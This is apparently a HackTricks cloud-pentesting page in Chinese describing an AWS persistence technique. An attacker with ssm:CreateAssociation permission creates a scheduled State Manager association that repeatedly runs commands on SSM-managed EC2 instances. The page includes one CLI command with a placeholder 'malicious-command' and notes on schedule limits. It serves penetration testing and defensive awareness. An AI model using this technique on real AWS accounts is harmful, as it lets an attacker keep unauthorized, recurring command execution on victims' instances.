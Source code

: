 # AWS - SSM Perssitence

{{#include ../../../../banners/hacktricks-training.md}}

## SSM

更多信息请参见：

{{#ref}}
../../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### 使用 ssm:CreateAssociation for persistence

具有 **`ssm:CreateAssociation`** 权限的攻击者可以创建 State Manager Association，在由 SSM 管理的 EC2 实例上自动执行命令。这些 associations 可以配置为以固定间隔运行，使其适合用于无需交互式会话的 backdoor-like persistence。
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> 只要 EC2 实例由 Systems Manager 管理、SSM agent 正在运行，且攻击者有创建 associations 的权限，该持久化方法就能生效。它不需要交互式会话或显式的 ssm:SendCommand 权限。**重要：** `--schedule-expression` 参数（例如 `rate(30 minutes)`）必须遵守 AWS 的最小间隔 30 分钟。若要立即或一次性执行，请完全省略 `--schedule-expression` —— association 在创建后会执行一次。

{{#include ../../../../banners/hacktricks-training.md}}
